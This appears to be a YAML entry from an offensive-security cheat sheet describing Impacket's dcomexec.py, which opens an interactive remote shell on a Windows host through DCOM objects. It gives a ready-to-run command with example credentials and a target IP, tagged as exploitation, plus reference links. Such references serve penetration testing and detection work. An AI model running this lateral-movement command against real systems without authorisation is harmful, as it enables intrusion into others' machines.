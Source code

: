 ```yaml
---
title: | 
  Interactive shell using DCOM endpoints
description: |
  Impacket's dcomexec.py provides an interactive shell on the Windows host similar to wmiexec.py, but using varying DCOM endpoints.

  Currently supports MMC20.Application, ShellWindows, and ShellBrowserWindow DCOM objects.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

  	DCOM Object: MMC20
command: |
  python3 dcomexec.py -object MMC20 test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - DCOM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/
---
```

